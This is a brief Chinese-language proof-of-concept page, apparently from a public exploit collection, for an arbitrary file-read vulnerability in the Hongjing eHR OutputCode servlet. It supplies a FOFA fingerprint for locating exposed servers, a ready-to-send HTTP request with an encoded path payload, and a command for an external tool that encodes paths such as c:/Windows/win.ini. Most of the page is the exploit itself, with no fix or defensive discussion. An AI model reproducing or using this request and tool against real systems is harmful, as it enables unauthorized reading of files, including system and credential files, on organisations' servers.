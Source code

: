 ## 宏景eHR-OutputCode存在任意文件读取漏洞



## fofa

```
app="HJSOFT-HCM"
```



## poc

```
GET /servlet/OutputCode?path=MrEzLLE8pPjFvPfyPAATTP2HJFPAATTPTwqF7eJiXGeHU4B HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
```

![image-20240523192106336](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231921421.png)



payload生成工具

工具地址：https://github.com/vaycore/HrmsTool/releases/tag/0.1

```
java -jar HrmsTool.jar -e c:/Windows/win.ini
```

![image-20240523192205181](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405231922223.png)